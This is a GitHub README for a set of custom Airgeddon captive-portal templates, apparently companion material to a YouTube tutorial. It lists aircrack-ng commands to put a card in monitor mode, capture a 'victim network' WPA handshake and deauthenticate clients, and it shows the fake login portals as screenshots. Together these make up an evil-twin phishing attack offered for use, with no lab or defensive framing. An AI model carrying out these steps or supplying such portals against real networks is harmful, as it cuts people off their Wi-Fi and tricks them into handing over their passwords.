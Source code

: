 # Airgeddon-Custom-Captive-Portal-Templates
Github repo from YouTube tutorial about customizing Airgeddon's Captive Portal template.

YouTube Video: https://youtu.be/M0TMHRuA2To

It's recommended to previously have captured the handshake as Airgeddon only gives 100 seconds tops to do this. Also, to take note of the MAC address of the network to update it in the check.htm file.

1. airmon-ng start wlan0 (Enable monitor mode)
2. airodump-ng wlan0mon (Listen to all networks. Jot down the BSSID and channel the network is in)
3. airodump-ng --bssid [MAC] --channel 1 -w wpa_log wlan0mon (Listen only to the victim network, capturing the handshake)

* It may be necessary to de-authenticate the clients for them to connect again and grab the handshake.
aireplay-ng --deauth 20 -a [MAC] wlan0mon
If -c [client] is specified, only that mac's user device will be de-authenticated.

# Regular template
![1](https://github.com/maddsec/Airgeddon-Custom-Captive-Portal-Templates/assets/88505855/1038c55d-57d3-4f80-aea6-20e200d755b5)

![2](https://github.com/maddsec/Airgeddon-Custom-Captive-Portal-Templates/assets/88505855/f826e09a-2f46-4eb4-a1a4-3eb6b1d34c77)

# Template with username
![3](https://github.com/maddsec/Airgeddon-Custom-Captive-Portal-Templates/assets/88505855/6607655d-d2d2-47af-a6e9-6c3e0e472f59)

![4](https://github.com/maddsec/Airgeddon-Custom-Captive-Portal-Templates/assets/88505855/d4d87d59-c6c2-481e-b71f-7dd3c48e0da0)

![image](https://github.com/maddsec/Airgeddon-Custom-Captive-Portal-Templates/assets/88505855/a7eaa6dd-e9f8-4e3f-971b-9fcde7b0cdda)
